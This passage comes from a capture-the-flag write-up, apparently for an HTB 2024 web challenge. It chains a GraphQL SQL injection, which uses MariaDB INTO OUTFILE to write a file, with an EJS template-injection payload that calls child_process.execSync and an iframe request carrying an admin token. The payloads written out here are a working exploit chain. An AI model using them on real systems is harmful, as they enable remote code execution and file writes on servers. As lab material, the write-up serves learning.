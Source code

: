 It looks like if we can write a file to the server, we could call `/readflag` using the following:

```js
<%= global.process.mainModule.require(`child_process`).execSync(`/readflag`).toString() %>
```

but how? We need to solve two problems:

1) Writing files to the server
2) Triggering the rendering of our EJS payload 

### Writing files via SQL injection

After researching and experimenting with payloads, I came across the following MariaDB expression: [INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/). This allows a query to write its result to a file:

```
query={
  getDataByName(name:"john\\n'UNION SELECT 1,1,1, '<%= global.process.mainModule.require(`child_process`).execSync(`/readflag`).toString() %>' INTO OUTFILE '/app/views/test.ejs'-- ") {
    id
    name
  }
}
```

```
{
    "url" :"localhost:1337/<iframe src='http://localhost:1337/graphql?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MTYyMTE4NDd9.Pk8ZBsRnCz82MIJhLuAfWJ6H0k4x2DaVlvY18dkCxYc&query=%7B%0A%20%20getDataByName(name%3A%22john%5C%5Cn%27UNION%20SELECT%201%2C1%2C1%2C%20%27%3C%25%3D%20global.process.mainModule.require(%60child_process%60).execSync(%60%2Freadflag%60).toString()%20%25%3E%27%20INTO%20OUTFILE%20%27%2Fapp%2Fviews%2Ftest.ejs%27--%20%22)%20%7B%0A%20%20%20%20id%0A%20%20%20%20name%0A%20%20%7D%0A%7D' height='2000' width='1000'></iframe>"
}
```

![image](../images/htb-ctf-2024/file-write.png)
*SQL file write*

It didn't immediately look good, but after verifying the file was uploaded to `app/views.test.ejs` using our old payload to view `file:///app/views/test.ejs` we can see it worked! 

